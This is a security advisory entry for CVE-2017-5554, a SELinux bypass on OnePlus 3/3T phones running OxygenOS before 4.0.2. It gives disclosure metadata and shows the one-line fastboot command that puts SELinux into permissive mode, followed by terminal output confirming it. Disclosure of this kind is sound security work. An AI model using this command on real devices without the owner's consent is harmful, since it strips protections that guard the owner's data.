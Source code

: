 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'cve-assign'
      date: '2017-01-22'
    - type: 'release'
      date: '2017-01-11'
    - type: 'cve-request'
      date: '2017-01-18'
      
cve: CVE-2017-5554
alephid: ALEPH-2017001
title: OnePlus 3/3T OxygenOS SELinux Security Bypass
product:
    - OnePlus 3T
    - OnePlus 3
vulnerable: 
    - OxygenOS prior to 4.0.2
references:
    - src: securityresear.ch
      url: https://securityresear.ch/2017/01/11/fastboot-oem-selinux-permissive/
      
severity: high
date: '2017-01-11'
---
```

The attacker can reboot a OnePlus 3/3T device into the fastboot mode, which could be done without any authentication. A physical attacker can press the "Volume Up" button during device boot, where an attacker with ADB access can issue the adb reboot bootloader command. Then, the attacker can put the platform's SELinux in permissive mode, which severely weakens it, by issuing: 

```terminal
fastboot oem selinux permissive
...
OKAY [  0.045s]
finished. total time: 0.047s

....

OnePlus3:/ $ getenforce
Permissive
OnePlus3:/ $
```
